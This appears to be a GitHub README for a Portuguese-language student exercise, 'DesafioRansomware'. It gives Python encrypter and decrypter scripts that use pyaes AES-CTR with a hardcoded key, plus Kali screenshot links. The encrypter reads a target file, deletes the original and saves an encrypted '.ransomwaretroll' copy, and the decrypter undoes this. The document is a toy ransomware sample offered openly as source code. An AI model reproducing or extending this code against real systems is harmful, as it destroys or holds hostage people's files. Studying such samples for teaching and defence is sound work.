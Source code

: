 # DesafioRansomware
## código para decrypter

import os

import pyaes

### abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"

file = open(file_name, "rb")

file_data = file.read()

file.close()

### chave para descriptografia
key = b"testeransomwares"

aes = pyaes.AESModeOfOperationCTR(key)

decrypt_data = aes.decrypt(file_data)

### remover o arquivo criptografado
os.remove(file_name)

### criar o arquivo descriptografado
new_file = "teste.txt"

new_file = open(f'{new_file}', "wb")

new_file.write(decrypt_data)

new_file.close()

## código para encrypter

import os

import pyaes

### abrir o arquivo a ser criptografado
file_name = "teste.txt"

file = open(file_name, "rb")

file_data = file.read()

file.close()

### remover o arquivo
os.remove(file_name)

### chave de criptografia
key = b"testeransomwares"

aes = pyaes.AESModeOfOperationCTR(key)

### criptografar o arquivo
crypto_data = aes.encrypt(file_data)

### salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"

new_file = open(f'{new_file}','wb')

new_file.write(crypto_data)

new_file.close()

### teste.txt
 
  este arquivo esta descriptografado




![kaliransom1](https://github.com/Matos97/DesafioRansomware/assets/168843291/51491a41-0136-45fc-b90f-c97454070878)

![kaliransom2](https://github.com/Matos97/DesafioRansomware/assets/168843291/a71e1c9c-5bd9-45d7-8409-04afd7125a7c)
![kaliransom3](https://github.com/Matos97/DesafioRansomware/assets/168843291/333949f6-3fc4-4158-a3be-4fa1e1b86ec8)
![kaliransom4](https://github.com/Matos97/DesafioRansomware/assets/168843291/a5076590-db30-4d31-9e7d-ea2072a41c48)
![kaliransom5](https://github.com/Matos97/DesafioRansomware/assets/168843291/6d41b7f6-4a34-48c2-9092-378c9b30916b)
